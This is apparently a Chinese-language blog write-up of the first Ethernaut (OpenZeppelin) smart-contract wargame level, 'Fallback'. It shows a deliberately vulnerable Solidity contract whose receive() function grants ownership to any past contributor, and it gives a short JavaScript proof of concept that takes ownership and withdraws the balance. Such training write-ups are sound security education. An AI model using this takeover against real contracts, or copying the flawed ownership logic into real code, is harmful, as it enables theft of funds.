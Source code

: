 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-1'
date: 2022-11-30 18:44:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'




---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第一关Fallback思路与POC

##### 目标:提取合约中的所有余额

##### 首先看代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

//部署合约时限定部署者为owner,并贡献了1000ETH
  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
//每次只能贡献0.001ETH,贡献超过1000ETH后自动成为合约拥有者
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

#### 通过审计合约代码可以发现,只需要想办法将owner存储的值设置为我们的钱包地址即可

##### 问题在哪里:很明显 receive() external. 设置了receive函数来接收转账,并且通过校验即改变owner存储的地址

##### poc思路 向Fallback合约发送转账,并通过 require(msg.value > 0 && contributions[msg.sender] > 0) 此校验

poc代码:

```js
await contract.contribute({value : 900000000000000})
await contract.sendTransaction({value : 1})
//此时查看合约owner地址已经是我们的钱包地址
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
//成功提现合约中的所有token
await contract.withdraw()
```

![](./assets/1670480318021.png)
